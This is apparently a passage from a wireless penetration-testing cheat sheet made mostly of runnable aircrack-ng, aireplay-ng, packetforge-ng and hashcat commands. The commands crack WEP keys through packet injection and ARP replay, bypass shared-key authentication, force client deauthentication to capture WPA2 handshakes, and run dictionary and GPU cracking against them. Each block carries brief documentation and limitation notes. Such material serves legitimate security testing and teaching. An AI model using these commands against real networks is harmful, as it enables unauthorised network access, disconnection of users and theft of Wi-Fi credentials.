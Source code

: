 ## WEP Encryption Attacks

### WEP Key Recovery Attacks
```bash
# WEP Cracking Methodology
# 1. Capture WEP traffic
airodump-ng -c 6 -w wep_capture --bssid AA:BB:CC:DD:EE:FF wlan0mon

# 2. Generate traffic (if network is idle)
aireplay-ng -1 0 -a AA:BB:CC:DD:EE:FF -h 11:22:33:44:55:66 wlan0mon  # Fake authentication
aireplay-ng -3 -b AA:BB:CC:DD:EE:FF -h 11:22:33:44:55:66 wlan0mon    # ARP replay attack

# 3. Crack WEP key
aircrack-ng -b AA:BB:CC:DD:EE:FF wep_capture-01.cap     # Statistical attack
aircrack-ng -K -b AA:BB:CC:DD:EE:FF wep_capture-01.cap  # KoreK attack

# WEP Cracking with Packet Injection
aireplay-ng -9 -e "WEP_Network" -a AA:BB:CC:DD:EE:FF wlan0mon  # Injection test
aireplay-ng -2 -b AA:BB:CC:DD:EE:FF -d FF:FF:FF:FF:FF:FF -f 1 -m 68 -n 86 wlan0mon  # Interactive packet replay
```

**Documentation**: WEP encryption is fundamentally broken and can be cracked with sufficient IV packets.
**Limitations**: WEP is largely deprecated; requires packet capture; success depends on network traffic.

### WEP Authentication Bypass
```bash
# Shared Key Authentication Attack
aireplay-ng -1 0 -e "WEP_Network" -y sharedkey.xor -a AA:BB:CC:DD:EE:FF -h 11:22:33:44:55:66 wlan0mon
aireplay-ng -1 6000 -o 1 -q 10 -e "WEP_Network" -y sharedkey.xor -a AA:BB:CC:DD:EE:FF -h 11:22:33:44:55:66 wlan0mon

# Extract keystream
packetforge-ng -0 -a AA:BB:CC:DD:EE:FF -h 11:22:33:44:55:66 -k 255.255.255.255 -l 255.255.255.255 -y sharedkey.xor -w inject.cap
```

**Documentation**: Exploits shared key authentication to bypass WEP protection without knowing the key.
**Limitations**: Only works with shared key authentication; requires captured authentication handshake.

## WPA/WPA2 Attacks

### WPA2 Handshake Capture and Cracking
```bash
# WPA2 4-Way Handshake Capture
airodump-ng -c 6 -w wpa2_capture --bssid AA:BB:CC:DD:EE:FF wlan0mon
aireplay-ng -0 5 -a AA:BB:CC:DD:EE:FF -c 11:22:33:44:55:66 wlan0mon  # Deauth specific client

# Verify handshake capture
aircrack-ng wpa2_capture-01.cap                         # Check for WPA handshake

# Dictionary Attack
aircrack-ng -w /usr/share/wordlists/rockyou.txt wpa2_capture-01.cap
aircrack-ng -w custom_wordlist.txt -b AA:BB:CC:DD:EE:FF wpa2_capture-01.cap

# GPU-Accelerated Cracking with Hashcat
aircrack-ng wpa2_capture-01.cap -j hashcat_format       # Convert to hashcat format
hashcat -m 2500 hashcat_format.hccapx /usr/share/wordlists/rockyou.txt --force
```